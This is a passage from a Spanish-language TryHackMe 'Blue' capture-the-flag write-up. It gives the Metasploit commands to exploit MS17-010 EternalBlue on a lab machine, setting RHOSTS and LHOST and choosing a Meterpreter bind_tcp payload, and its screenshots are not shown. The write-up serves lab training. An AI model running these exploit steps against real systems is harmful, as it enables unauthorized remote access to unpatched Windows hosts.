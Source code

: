 donde configuramos el scanner para que tome como host la ip de la victima 

```bash
set RHOSTS 10.10.174.11
```
![](/assets/images/tryhme-writeup-blue/Pasted_image_20231228134134.png)

y ponemos a correr el escáner 

```bash
run
```
![](/assets/images/tryhme-writeup-blue/Pasted_image_20231228134222.png)


## Explotación

para la explotacion utilizamos el modulo de **ms17_010_eternalblue** de metasploit ,donde cambiaremos el **rhosts** por la ip de la victima y cambiamos el **lhost** por nuestra ip

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.174.11
set lhost 10.8.245.39
```

y para hacer la escala de privilegios como pide tryhackme cambiamos el payload por el siguiente

```bash
set payload windows/x64/meterpreter/bind_tcp
```

![](/assets/images/tryhme-writeup-blue/Pasted_image_20231228135314.png)
